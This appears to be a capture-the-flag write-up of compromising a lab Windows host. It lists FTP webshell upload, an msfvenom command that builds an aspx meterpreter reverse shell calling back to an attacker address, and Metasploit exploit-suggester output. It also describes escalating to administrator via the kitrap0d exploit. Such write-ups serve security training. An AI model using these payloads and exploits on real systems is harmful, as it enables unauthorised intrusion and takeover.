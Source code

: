 1. Connect to FTP server
2. Upload webshell
3. Access it via <IP>/webshell.aspx
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=14000 -f aspx > shell.aspx
```
4. Find method for privEsc
```metasploit
use post/multi/recon/local_exploit_suggester
```

exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
  This module will bypass Windows UAC by hijacking a special key in 
  the Registry under the current user hive, and inserting a custom 
  command that will get invoked when the Windows Event Viewer is 
  launched. It will spawn a second shell that has the UAC flag turned 
  off. This module modifies a registry key, but cleans up the key once 
  the payload has been invoked. The module does not require the 
  architecture of the payload to match the OS. If specifying 
  EXE::Custom your DLL should call ExitProcess() after starting your 
  payload in a separate process.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
  This module will create a new session with SYSTEM privileges via the 
  KiTrap0D exploit by Tavis Ormandy. If the session in use is already 
  elevated then the exploit will not run. The module relies on 
  kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator:  NOT WORKING
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
  This module leverages a kernel pool overflow in Win32k which allows 
  local privilege escalation. The kernel shellcode nulls the ACL for 
  the winlogon.exe process (a SYSTEM process). This allows any 
  unprivileged process to freely migrate to winlogon.exe, achieving 
  privilege escalation. This exploit was used in pwn2own 2013 by MWR 
  to break out of chrome's sandbox. NOTE: when a meterpreter session 
  started by this exploit exits, winlogin.exe is likely to crash.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
  This module exploits a vulnerability in win32k.sys where under 
  specific conditions TrackPopupMenuEx will pass a NULL pointer to the 
  MNEndMenuState procedure. This module has been tested successfully 
  on Windows 7 SP0 and Windows 7 SP1.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
  This module exploits a NULL Pointer Dereference in win32k.sys, the 
  vulnerability can be triggered through the use of TrackPopupMenu. 
  Under special conditions, the NULL pointer dereference can be abused 
  on xxxSendMessageTimeout to achieve arbitrary code execution. This 
  module has been tested successfully on Windows XP SP3, Windows 2003 
  SP2, Windows 7 SP1 and Windows 2008 32bits. Also on Windows 7 SP1 
  and Windows 2008 R2 SP1 64 bits.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
  This module abuses a process creation policy in Internet Explorer's 
  sandbox; specifically, Microsoft's RemoteApp and Desktop Connections 
  runtime proxy, TSWbPrxy.exe. This vulnerability allows the attacker 
  to escape the Protected Mode and execute code with Medium Integrity. 
  At the moment, this module only bypass Protected Mode on Windows 7 
  SP1 and prior (32 bits). This module has been tested successfully on 
  Windows 7 SP1 (32 bits) with IE 8 and IE 11.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  This module exploits improper object handling in the win32k.sys 
  kernel mode driver. This module has been tested on vulnerable builds 
  of Windows 7 x64 and x86, and Windows 2008 R2 SP1 x64.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
  This module exploits the vulnerability in mrxdav.sys described by 
  MS16-016. The module will spawn a process on the target system and 
  elevate its privileges to NT AUTHORITY\SYSTEM before executing the 
  specified payload within the context of the elevated process.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
  This module exploits the lack of sanitization of standard handles in 
  Windows' Secondary Logon Service. The vulnerability is known to 
  affect versions of Windows 7-10 and 2k8-2k12 32 and 64 bit. This 
  module will only work against those versions of Windows with 
  Powershell 2.0 or later and systems with two or more CPU cores.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
  Module utilizes the Net-NTLMv2 reflection between DCOM/RPC to 
  achieve a SYSTEM handle for elevation of privilege. Currently the 
  module does not spawn as SYSTEM, however once achieving a shell, one 
  can easily use incognito to impersonate the token.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
  This module utilizes the Net-NTLMv2 reflection between DCOM/RPC to 
  achieve a SYSTEM handle for elevation of privilege. It requires a 
  CLSID string.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  This module exploits a vulnerability on EPATHOBJ::pprFlattenRec due 
  to the usage of uninitialized data which allows to corrupt memory. 
  At the moment, the module has been tested successfully on Windows XP 
  SP3, Windows 2003 SP1, and Windows 7 SP1.



# PrivEsc
Using exploit/windows/local/ms10_015_kitrap0d and changing the LHOST to my VPN value instead of the eth0, I was able to get admin.

Flags were located in the Desktop of the user bobsy? and Administrator


